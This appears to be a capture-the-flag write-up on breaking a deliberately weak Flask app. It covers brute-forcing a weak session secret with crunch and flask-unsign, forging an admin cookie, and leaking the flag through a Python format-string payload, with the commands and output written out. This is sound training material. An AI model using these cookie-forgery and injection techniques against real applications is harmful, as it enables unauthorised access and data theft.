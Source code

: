 # Find The Compass

## "Recon"

We're given the app's source code. By exploring the `__init__.py` we spot that the secret used to sign session cookies is generated through a "homemade" function which is usually a very bad sign.

```py
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')   
```

By either analysing the code or printing a large number of time the result of this function, we get that it's an 8 digits max secret that's padded with 0's when the returned code's length is inferiour to 8. This is insecure because 8 digits code are 10 million possibilities which makes it bruteforceable. 

In order to bruteforce the secret we need a token, good point for us the app sets one as soon as you request the web server using the before_request Flask decorator :

```py
@app.before_request
def before_request():
    if not session.get('status'):
        session['status'] = 'guest'
    if not session.get('logged_in'):
        session['logged_in'] = False
    session['nonce'] = token_hex(32)
```

## Cookie crafting

We can retrieve a token, here I got `.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi_ke7HdQwGze-NhZDC6lU`

Using `flask-unsign` and `crunch` we can generate a wordlist and then bruteforce the token's secret.

```
╰─λ crunch 8 8 -t %%%%%%%% -o wordlist.txt
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 

crunch:  56% completed generating output

crunch: 100% completed generating output
╰─λ head wordlist.txt && tail wordlist.txt
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
99999990
99999991
99999992
99999993
99999994
99999995
99999996
99999997
99999998
99999999
```

```
╰─λ flask-unsign --unsign --cookie '.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi ke7HdQwGze-NhZDC6lU' --wordlist ./wordlist.txt --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': '0b2e3846ad59a5c5e18a4ba2ea7a983e1322ddfe67013d52a064c279da220278', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6784 attempts
b'00006666'
```

The secret is `00006666`. Using this value let's craft a new cookie that will allow us to login (be careful, by checking the login function, it sets the status, logged_in to True and the username :))

```
╰─λ flask-unsign --secret '00006666' --sign --cookie '{"nonce":"aaaa", "status": "admin", "username": "admin", "logged_in": True}'
.eJyrVsrLz0tOVbJSSgQCJR2l4pLEktJiED8lNzMPKFBanFqUl5ibiiSUk5-enpoSD2RblRSVptYCABucF1Y.ZeR_Ww.KiwTMj54DnHVy5jvxPN2X47egfA
```

By adding this cookie to our browser, we get access to a panel that allows us to add reminders.

![Panel](img/panel.png)

## Format String 

Before going further, as we have the source code, let's check what we could do and if there are any spottable vulnerabilities. First thing that should catch our attention is in utils.py: 

```py
COMPASS = {
    # Here are the coordinates of the compass.
    'COORDINATES': open('flag.txt', 'r').read()
}
```

So the coordinates of the stolen compass are stored in a COMPASS dictionnary. We need to access the value of this compass dict, this can be done through various ways, RCE, SSTI or FormatString :). Going through the source code, the "panel" route is intereting: 

```py
@app.route('/panel', methods=['GET'])
def panel():
    if not authorized():
        return redirect(url_for('index'))
    reminders = Reminder.query.all()
    reminders_list = []
    # If a wise admin needs the coordinates of the compass, he can retrieve them.
    renderer = Renderer(COMPASS['COORDINATES'])
    for reminder in reminders:
        reminders_list.append([reminder.id, renderer.render(reminder.author.username , reminder.content)])
    return render_template('panel.html', reminders=reminders_list)
```

When listing the reminders, a "Renderer" object is created and we pass the value of the flag to the constructor. This behaviour is very unexpected, the comment tells us that only a wise admin needing the coordinates can retrieve them. Lets give a look the class that managed the Reminder object.

```py
from html import escape

class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

So this class renders the content of a reminder to HTML by using the escape function, the thing is we have "format" that's called twice on the user input. Once in `htmlTemplate` with the use of the `f"<string>"` and then at the return statement using `.format(self=self)`.

This allows any user that inputs a reminder to see its input rendered. Using the `self` keyword we can retrieve the flag with the following payload `{self.coordinates}` (as the coordinates have been set in the constructor of the object).

![flag](img/panel_flag.png)